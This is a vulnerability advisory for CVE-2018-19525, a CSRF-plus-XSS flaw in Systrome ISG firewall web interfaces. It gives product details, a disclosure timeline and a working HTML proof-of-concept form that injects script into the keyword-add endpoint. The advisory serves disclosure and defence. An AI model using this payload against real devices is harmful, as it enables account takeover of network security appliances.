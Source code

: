 =====================================================
Authenticated XSRF leads to complete Account Takeover
=====================================================

. contents:: Table Of Content

Overview
========

Title:- Authenticated XSRF leads to complete account takeover in all SYSTORME ISG Products.
CVE ID:- CVE-2018-19525
Author: Kaustubh G. Padwad
Vendor: Systrome Networks (http://systrome.com/about/)
Products:
	 1.ISG-600C
	 2.ISG-600H
	 3.ISG-800W


Tested Version: : ISG-V1.1-R2.1_TRUNK-20180914.bin(Respetive for others)
Severity: High--Critical

Advisory ID
============
KSA-Dev-002


About the Product:
==================

Cumilon ISG-* cloud gateway is the security product developed by Systrome for the distributed access network for the cloud-computing era. It integrates the L2-L7security features of the next-generation firewall, is based on the user identification and application identification and provides the application-layer firewall, intrusion prevention, anti-virus, anti-APT, VPN, intelligent bandwidth management, multi-egress link load balancing, content filtering, URL filtering, and other security functions. It provides the cloud interface. The security cloud management platform based on the big data platform architecture can monitor the network topology and device status in real time, simplifying the online deployment of the professional device via the auto configuration delivery. The real-time monitoring of the mobile terminal reduces the maintenance cost and makes the security visible at any time and anywhere. Systrome cloud gateway is the best access security choice of the middle and small enterprises, branch interconnection, and chain enterprises.

Description: 
============
An issue was discovered on Systrome ISG-600C,ISG-600H, and ISG-800W 1.1-R2.1_TRUNK-20180914.bin devices. There is CSRF via /ui/?g=obj_keywords_add and/ui/?g=obj_keywords_addsave
with resultant XSS because of a lack of csrf token validation.

Additional Information
======================
The web interface of the ISG-Firewalls does not validate the csrftoken,and the ?g=obj_keywords_add page does not properly sanitize the
user input which leads to xss, By combining this two attack we can form the XSRF request which leads to complete account takeover using XSRF.

[Vulnerability Type]
====================
Cross Site Request Forgery (CSRF)

How to Reproduce: (POC):
========================
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://192.168.1.200/ui/?g=obj_keywords_add" method="POST">
      <input type="hidden" name="name" value="xsrf" />
      <input type="hidden" name="description" value="<svg><script>//" />
      <input type="hidden" name="NewLine;confirm(1338);</script </svg>" value="" />
      <input type="hidden" name="keyword" value="xsrf" />
      <input type="hidden" name="submit_post" value="obj_keywords_addsave" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>



[Affected Component]
obj_keywords_add ,obj_keywords_addsave, CSRF Vulnerabilities,

------------------------------------------

[Attack Type]
Remote

------------------------------------------

[Impact Code execution]
true

------------------------------------------

[Attack Vectors]
once victim open the crafted url the device will get compromise

Mitigation
==========

vendr is working on the same he will submit the solution maybe by december 1st weak.

Disclosure: 
===========
02-Nov-2018 Discoverd the Vulnerability
15-Nov-2018 Reported to vendor 
25-Nov-2018 Requested for CVE/Cve's.
26-Nov-2018 CVE-Assign 


[Vendor of Product]
Systrome Networks (http://systrome.com/about/)

credits:
========
* Kaustubh Padwad
* Information Security Researcher
* kingkaustubh@me.com
* https://s3curityb3ast.github.io/
* https://twitter.com/s3curityb3ast
* http://breakthesec.com
* https://www.linkedin.com/in/kaustubhpadwad
